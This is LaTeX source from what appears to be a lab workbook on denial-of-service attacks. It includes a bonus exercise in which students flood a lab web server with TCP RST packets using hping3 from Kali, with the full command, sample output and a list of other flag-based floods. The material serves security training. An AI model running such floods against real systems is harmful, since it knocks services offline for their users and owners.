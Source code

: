 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
{\bf Solution:}\\
When your team has sent +1 million packets per second into the network, from one or two laptops - you are done.

{\bf Discussion:}\\
Gigabit Ethernet can send up to 1.4 million packets per second, pps.

There is a presentation about DDoS protection with low level technical measures to implement at\\
{\footnotesize {}}

Receiving systems, and those en route to the service, should be checked for resources like CPU load, bandwidth, logging. Logging can also overload the logging infrastructure, so take care when configuring this in your own networks.


\chapter{Bonus: TCP other flooding 15min}


{\bf Objective:}\\
Start a webserver attack using TCP flooding tool hping3.

{\bf Purpose:}\\
Run various other common attacks

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

\begin{alltt}
hping3 --flood -p 80 -R 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}


{\bf Hints:}\\
Common attacks use the SYN, as shown in previous exercise, but other popular
TCP attacks are RST, PUSH, URG, FIN, ACK attacks - setting one or more flags in the packets.
\end{document}

